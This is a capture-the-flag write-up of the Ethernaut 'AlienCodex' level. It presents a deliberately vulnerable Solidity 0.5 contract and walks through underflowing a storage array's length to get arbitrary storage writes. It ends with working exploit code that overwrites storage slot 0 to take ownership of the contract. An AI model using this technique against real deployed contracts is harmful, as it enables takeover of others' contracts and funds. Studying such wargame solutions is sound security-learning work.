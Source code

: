 ###########################
Ethernaut 19: AlienCodex
###########################
:date: 2023-10-08
:slug: ethernaut-19-aliencodex
:summary: shaggy in hackers (1995) said 'hack the planet', after 28 years this
          is the logical next step.
:tags: programming
:author: capu
:featured_image:


Objective
=========
Claim ownership of the contract

Code
====
.. code-block:: solidity
    :linenos: inline
    :hl_lines: 1 22

    pragma solidity ^0.5.0;
    import {Ownable} from "./Ownable-05.sol";

    contract AlienCodex is Ownable {
        bool public contact;
        bytes32[] public codex;

        modifier contacted() {
            assert(contact);
            _;
        }

        function make_contact() public {
            contact = true;
        }

        function record(bytes32 _content) public contacted {
            codex.push(_content);
        }

        function retract() public contacted {
            codex.length--;
        }

        function revise(uint256 i, bytes32 _content) public contacted {
            codex[i] = _content;
        }
    }

The idea is that you ``make_contact()`` with this alien and then you can append
(``record()``), pop (``retract()``) or modify (``revise()``) a storage array which
is the supposed communication.

.. code-block:: plain
    :linenos: inline
    :hl_lines: 

    [I] capu ~/s/ethernaut-solutions (master)> forge inspect --pretty  AlienCodex  storageLayout
    | Name    | Type      | Slot | Offset | Bytes | Contract                                   |
    |---------|-----------|------|--------|-------|--------------------------------------------|
    | _owner  | address   | 0    | 0      | 20    | src/levels/19-AlienCodex-05.sol:AlienCodex |
    | contact | bool      | 0    | 20     | 1     | src/levels/19-AlienCodex-05.sol:AlienCodex |
    | codex   | bytes32[] | 1    | 0      | 32    | src/levels/19-AlienCodex-05.sol:AlienCodex |


I gotta find a way to write my address to storage slot 0.

Solution
========
Too late to not see the highlighted lines? Well, it's okay, because this one is
pretty hard anyway. 

The first smell is that under solidity 0.5.0, it's possible to write to the
``.length`` member of an array, and no checks are in place to avoid decrementing
an empty array.

.. note::

    also, keep in mind that arithmetic used to overflow silently until verison
    0.8.0.

So decrementing an empty array should actually make it of ``uint256.max``
length!

That, coupled to the fact that I can use ``revise()`` to write to any index of
the array, looks like a blank check to write to any storage position. looking
into the `changes to the next major version
<https://docs.soliditylang.org/en/v0.6.0/060-breaking-changes.html>`_ seems to
confirm this was a problem:

    Member-access to length of arrays is now always read-only, even for storage
    arrays. It is no longer possible to resize storage arrays assigning a new value
    to their length. Use push(), push(value) or pop() instead, or assign a full
    array, which will of course overwrite existing content. The reason behind this
    is to prevent **storage collisions by gigantic storage arrays**.

I seem to have a plan now:

- make contact
- ``retract()`` to overflow the length of the array 
- find where I would have to write to the array so it overwrites storage
  slot 0
- call ``revise`` with that index, plus the correctly padded address
- 😎

Step three is where I have to engage some braincells. First, `the docs:
<https://docs.soliditylang.org/en/v0.8.21/internals/layout_in_storage.html#mappings-and-dynamic-arrays>`_ 

    Assume the storage location of the mapping or array ends up being a slot ``p`` [...]
    Array data is located starting at ``keccak256(p)`` and it is laid out in the same
    way as statically-sized array data would: One element after the other,
    potentially sharing storage slots if the elements are not longer than 16 bytes

- from the output of ``forge inspect`` in the beggining of the article, I know
  that ``p == 1``
- we can forget about the last part, since the elements are ``bytes32``

So ``codex[0]`` will end up at position ``keccak256(1)`` 

.. code-block:: solidity
    :linenos: inline
    :hl_lines: 

    ➜ uint(keccak256(abi.encodePacked(uint(1))))
    Type: uint
    ├ Hex: 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
    └ Decimal: 80084422859880547211683076133703299733277748156566366325829078699459944778998

keep in mind that awfully long number is where the *start* of the array will be.
Whatever I pass to ``revise()`` as ``i`` will be *added* to it, and I want the
result of it to overflow to a value of zero

.. code-block:: solidity
    :linenos: inline
    :hl_lines: 

    (keccak256(1) + i ) % uint256.max == 0
    // % -> - is equivalent for only one overflow
    // the +1 is because uint256.max is a value that can actually be held, one
    // more than that triggers the overflow
    (keccak256(1) + i ) - (uint256.max + 1) == 0
    (keccak256(1) + i ) == uint256.max + 1
    i == uint256.max - keccak256(1) + 1
    // ------------------------------------- 
    ➜ type(uint).max - uint(keccak256(abi.encodePacked(uint(1)))) + 1
    Type: uint
    ├ Hex: 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a
    └ Decimal: 35707666377435648211887908874984608119992236509074197713628505308453184860938

All that primary education finally paid off.
And tying all the steps together:

.. code-block:: solidity
    :linenos: inline

    IAlienCodex target = IAlienCodex(target_);
    // this'll break the 'contacted' slot, I do not care.
    bytes32 storageContent = bytes32(bytes20(attacker)) >> 12*8;
    uint256 indexForStorageStart  = type(uint256).max - uint256(
        keccak256(abi.encodePacked(bytes32(uint256(1))))
      ) + 1;
    target.make_contact();
    target.retract();
    target.revise(
      indexForStorageStart ,
      storageContent
    );
